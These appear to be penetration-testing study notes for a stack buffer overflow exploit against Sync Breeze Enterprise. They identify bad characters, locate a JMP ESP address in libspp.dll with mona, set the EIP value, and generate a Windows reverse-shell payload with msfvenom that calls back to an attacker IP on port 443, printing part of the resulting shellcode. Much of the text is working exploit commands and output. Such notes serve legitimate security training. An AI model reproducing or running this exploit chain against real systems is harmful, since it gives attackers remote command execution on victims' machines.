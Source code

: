right click esp, follow in dump: find that char after 0x09 not appear  means 0x0a is a bad char (line feed, terminate the http field)  

remove 0x0a from the barchar and repeat, find 0x0d (return char) is also bad  
all bad char `0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B 0x3D`   

## redirecting the execution flow
the address differ from crash to crash  
## find return address  
JMP ESP  
the addresses used in the library must be static, eliminates libraries compiled with ASLR support 
the **address** can not contain any bar char  

use !mona modules
```
Log data, item 7
 Address=0BADF00D
 Message= 0x00400000 | 0x00462000 | 0x00062000 | False  | False   | False |  False   | False  | -1.0- [syncbrs.exe] (C:\Program Files\Sync Breeze Enterprise\bin\syncbrs.exe)
```
however the address leading with `0x00`  
```
Log data, item 10
 Address=0BADF00D
 Message= 0x10000000 | 0x10223000 | 0x00223000 | False  | False   | False |  False   | False  | -1.0- [libspp.dll] (C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll)
```
tip: If this application was compiled with DEP support, our JMP ESP
address would have to be located in the .text code segment of the module  

```
kali@kali:~$ msf-nasm_shell
nasm > jmp esp
00000000 FFE4 jmp esp
nasm >
```
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

```
Log data, item 3
 Address=10090C83
 Message=  0x10090c83 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [libspp.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll)
```

JMP ESP instruction (0x10090c83)  
eip = "\x83\x0c\x09\x10"  


## generate shell code with metasploit  
`msfvenom -l payloads`  list available playload  
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c`  
-p payload  
-f to select C-formatted shellcode.  
```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
```